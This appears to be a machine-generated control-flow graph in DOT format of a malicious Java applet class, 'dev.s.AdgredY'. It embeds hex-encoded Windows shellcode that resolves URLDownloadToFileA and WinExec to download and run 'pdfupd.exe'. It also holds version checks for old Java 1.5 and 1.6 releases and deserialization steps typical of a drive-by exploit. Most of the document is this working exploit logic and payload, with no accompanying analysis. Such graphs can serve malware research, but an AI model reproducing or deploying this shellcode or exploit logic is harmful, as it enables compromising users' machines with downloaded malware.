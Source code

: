 digraph "" {
    "r0 := @this: dev.s.AdgredY"
    "push 5"
    "r0 := @this: dev.s.AdgredY"->"push 5";
    "newarray"
    "push 5"->"newarray";
    "store.r r2"
    "newarray"->"store.r r2";
    "load.r r2"
    "store.r r2"->"load.r r2";
    "push 0"
    "load.r r2"->"push 0";
    "push \"505351525657559CE8000000005D83ED0D31C064034030780C8B400C8B701CAD8B4008EB098B40348D407C8B403C5657BE5E01000001EEBF4E01000001EFE8D60100005F5E89EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356302000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200\""
    "push 0"->"push \"505351525657559CE8000000005D83ED0D31C064034030780C8B400C8B701CAD8B4008EB098B40348D407C8B403C5657BE5E01000001EEBF4E01000001EFE8D60100005F5E89EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356302000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200\"";
    "arraywrite.r"
    "push \"505351525657559CE8000000005D83ED0D31C064034030780C8B400C8B701CAD8B4008EB098B40348D407C8B403C5657BE5E01000001EEBF4E01000001EFE8D60100005F5E89EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356302000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200\""->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "push 1"
    "load.r r2"->"push 1";
    "push \"005250FF95560100006A006A0089EA81C25E0100005289EA81C278020000526A00FFD06A0589EA81C25E01000052FF955A01000089EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356E02000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200005250FF95560100006A006A0089EA81C2\""
    "push 1"->"push \"005250FF95560100006A006A0089EA81C25E0100005289EA81C278020000526A00FFD06A0589EA81C25E01000052FF955A01000089EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356E02000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200005250FF95560100006A006A0089EA81C2\"";
    "push \"005250FF95560100006A006A0089EA81C25E0100005289EA81C278020000526A00FFD06A0589EA81C25E01000052FF955A01000089EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356E02000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200005250FF95560100006A006A0089EA81C2\""->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "push 2"
    "load.r r2"->"push 2";
    "push \"5E0100005289EA81C2A6020000526A00FFD06A0589EA81C25E01000052FF955A0100009D5D5F5E5A595B58C30000000000000000000000000000000047657454656D705061746841004C6F61644C696272617279410047657450726F63416464726573730057696E4578656300BB89F289F730C0AE75FD29F789F931C0BE3C00000003B51B02000066AD03851B0200008B\""
    "push 2"->"push \"5E0100005289EA81C2A6020000526A00FFD06A0589EA81C25E01000052FF955A0100009D5D5F5E5A595B58C30000000000000000000000000000000047657454656D705061746841004C6F61644C696272617279410047657450726F63416464726573730057696E4578656300BB89F289F730C0AE75FD29F789F931C0BE3C00000003B51B02000066AD03851B0200008B\"";
    "push \"5E0100005289EA81C2A6020000526A00FFD06A0589EA81C25E01000052FF955A0100009D5D5F5E5A595B58C30000000000000000000000000000000047657454656D705061746841004C6F61644C696272617279410047657450726F63416464726573730057696E4578656300BB89F289F730C0AE75FD29F789F931C0BE3C00000003B51B02000066AD03851B0200008B\""->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "push 3"
    "load.r r2"->"push 3";
    "push \"707883C61C03B51B0200008DBD1F020000AD03851B020000ABAD03851B02000050ABAD03851B020000AB5E31DBAD5603851B02000089C689D751FCF3A65974045E43EBE95E93D1E003852702000031F69666ADC1E00203851F02000089C6AD03851B020000C3EB100000000000000000000000000000000089851B0200005657E858FFFFFF5F5EAB01CE803EBB7402EBED\""
    "push 3"->"push \"707883C61C03B51B0200008DBD1F020000AD03851B020000ABAD03851B02000050ABAD03851B020000AB5E31DBAD5603851B02000089C689D751FCF3A65974045E43EBE95E93D1E003852702000031F69666ADC1E00203851F02000089C6AD03851B020000C3EB100000000000000000000000000000000089851B0200005657E858FFFFFF5F5EAB01CE803EBB7402EBED\"";
    "push \"707883C61C03B51B0200008DBD1F020000AD03851B020000ABAD03851B02000050ABAD03851B020000AB5E31DBAD5603851B02000089C689D751FCF3A65974045E43EBE95E93D1E003852702000031F69666ADC1E00203851F02000089C6AD03851B020000C3EB100000000000000000000000000000000089851B0200005657E858FFFFFF5F5EAB01CE803EBB7402EBED\""->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "push 4"
    "load.r r2"->"push 4";
    "push \"C355524C4D4F4E2E444C4C0055524C446F776E6C6F6164546F46696C6541007064667570642E6578650063726173682E70687000\""
    "push 4"->"push \"C355524C4D4F4E2E444C4C0055524C446F776E6C6F6164546F46696C6541007064667570642E6578650063726173682E70687000\"";
    "push \"C355524C4D4F4E2E444C4C0055524C446F776E6C6F6164546F46696C6541007064667570642E6578650063726173682E70687000\""->"arraywrite.r";
    "new java.lang.StringBuilder"
    "arraywrite.r"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r2";
    "store.r r2"->"push 3";
    "push 3"->"newarray";
    "store.r $r33"
    "newarray"->"store.r $r33";
    "load.r $r33"
    "store.r $r33"->"load.r $r33";
    "load.r $r33"->"push 0";
    "push \"da\""
    "push 0"->"push \"da\"";
    "push \"da\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r33";
    "load.r $r33"->"push 1";
    "push \"ta\""
    "push 1"->"push \"ta\"";
    "push \"ta\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r33";
    "load.r $r33"->"push 2";
    "push \"c\""
    "push 2"->"push \"c\"";
    "push \"c\""->"arraywrite.r";
    "push \"java.version\""
    "arraywrite.r"->"push \"java.version\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r4"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r4";
    "load.r r0"
    "store.r r4"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r33";
    "load.r $r33"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r33";
    "load.r $r33"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>";
    "store.r r5"
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"->"store.r r5";
    "store.r r5"->"push 1";
    "push 1"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "load.r r7"
    "store.r r7"->"load.r r7";
    "load.r r7"->"push 0";
    "push 63"
    "push 0"->"push 63";
    "arraywrite.c"
    "push 63"->"arraywrite.c";
    "arraywrite.c"->"push 0";
    "store.i i48"
    "push 0"->"store.i i48";
    "store.i i48"->"push 0";
    "store.i i49"
    "push 0"->"store.i i49";
    "load.r r5"
    "store.i i49"->"load.r r5";
    "load.i i48"
    "load.r r5"->"load.i i48";
    "virtualinvoke <java.lang.String: char charAt(int)>"
    "load.i i48"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"load.r r7";
    "load.r r7"->"push 0";
    "arrayread.c"
    "push 0"->"arrayread.c";
    "ifcmpeq.c load.r r5"
    "arrayread.c"->"ifcmpeq.c load.r r5";
    "load.i i49"
    "ifcmpeq.c load.r r5"->"load.i i49";
    "load.i i49"->"load.r r5";
    "load.r r5"->"load.i i48";
    "load.i i48"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "add.i"
    "virtualinvoke <java.lang.String: char charAt(int)>"->"add.i";
    "add.i"->"store.i i49";
    "inc.i i48 1"
    "store.i i49"->"inc.i i48 1";
    "goto load.r r5"
    "inc.i i48 1"->"goto load.r r5";
    "ifcmpeq.c load.r r5"->"load.r r5";
    "load.r r5"->"load.i i49";
    "push 7"
    "load.i i49"->"push 7";
    "push 7"->"add.i";
    "push 256"
    "add.i"->"push 256";
    "rem.i"
    "push 256"->"rem.i";
    "staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>"
    "rem.i"->"staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>";
    "staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>"->"store.r r7";
    "store.r r7"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"deserialize=\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"deserialize=\"";
    "push \"deserialize=\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i load.r r4"
    "push -1"->"ifcmpne.i load.r r4";
    "return"
    "ifcmpne.i load.r r4"->"return";
    "load.r r4"
    "ifcmpne.i load.r r4"->"load.r r4";
    "push \"1.6.0_11\""
    "load.r r4"->"push \"1.6.0_11\"";
    "push \"1.6.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 1"
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r4";
    "push \"1.6.0_12\""
    "load.r r4"->"push \"1.6.0_12\"";
    "push \"1.6.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r4";
    "push \"1.6.0_13\""
    "load.r r4"->"push \"1.6.0_13\"";
    "push \"1.6.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r4";
    "push \"1.6.0_14\""
    "load.r r4"->"push \"1.6.0_14\"";
    "push \"1.6.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r4";
    "push \"1.6.0_15\""
    "load.r r4"->"push \"1.6.0_15\"";
    "push \"1.6.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r4";
    "push \"1.6.0_16\""
    "load.r r4"->"push \"1.6.0_16\"";
    "push \"1.6.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i push 0"
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b r7"
    "push 1"->"store.b r7";
    "store.b r7"->"goto load.r r5";
    "goto load.r r5"->"load.r r5";
    "push \"i=1\""
    "load.r r5"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 0"
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"push 1";
    "store.b i48"
    "push 1"->"store.b i48";
    "goto load.b r7"
    "store.b i48"->"goto load.b r7";
    "load.b r7"
    "goto load.b r7"->"load.b r7";
    "load.b i48"
    "load.b r7"->"load.b i48";
    "and.b"
    "load.b i48"->"and.b";
    "ifeq load.r r4"
    "and.b"->"ifeq load.r r4";
    "push 47"
    "ifeq load.r r4"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"win\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"win\"";
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>";
    "staticinvoke <dev.s.AdgredY: java.lang.String repeat(char,int)>"->"store.r r7";
    "goto new java.lang.StringBuilder"
    "store.r r7"->"goto new java.lang.StringBuilder";
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"file://\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"file://\"";
    "push \"file://\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r7";
    "load.r r7"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%Z%Z%Z%Z%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%Z%Z%Z%Z%\"";
    "push \"Z%Z%Z%Z%Z%Z%\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r7";
    "store.r r7"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r33";
    "load.r $r33"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r33";
    "load.r $r33"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.AdgredY: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"11\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r i48"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r i48";
    "push \"\""
    "store.r i48"->"push \"\"";
    "store.r i49"
    "push \"\""->"store.r i49";
    "store.r i49"->"push 0";
    "store.i i52"
    "push 0"->"store.i i52";
    "load.i i52"
    "store.i i52"->"load.i i52";
    "load.r i48"
    "load.i i52"->"load.r i48";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r i48"->"virtualinvoke <java.lang.String: int length()>";
    "ifcmpge.i load.r i49"
    "virtualinvoke <java.lang.String: int length()>"->"ifcmpge.i load.r i49";
    "ifcmpge.i load.r i49"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r i49"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r i49";
    "load.r i49"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r i48";
    "load.r i48"->"load.i i52";
    "load.i i52"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>";
    "staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r i49";
    "inc.i i52 1"
    "store.r i49"->"inc.i i52 1";
    "goto load.i i52"
    "inc.i i52 1"->"goto load.i i52";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r7";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r7"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r7";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r7"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"load.r r4";
    "push \"1.5.0\""
    "load.r r4"->"push \"1.5.0\"";
    "ifcmpeq.r new java.io.ObjectInputStream"
    "push \"1.5.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_01\""
    "load.r r4"->"push \"1.5.0_01\"";
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i new java.io.ObjectInputStream"
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_02\""
    "load.r r4"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_03\""
    "load.r r4"->"push \"1.5.0_03\"";
    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_04\""
    "load.r r4"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_05\""
    "load.r r4"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_06\""
    "load.r r4"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_07\""
    "load.r r4"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_08\""
    "load.r r4"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_09\""
    "load.r r4"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_10\""
    "load.r r4"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_11\""
    "load.r r4"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r4";
    "push \"1.5.0_12\""
    "load.r r4"->"push \"1.5.0_12\"";
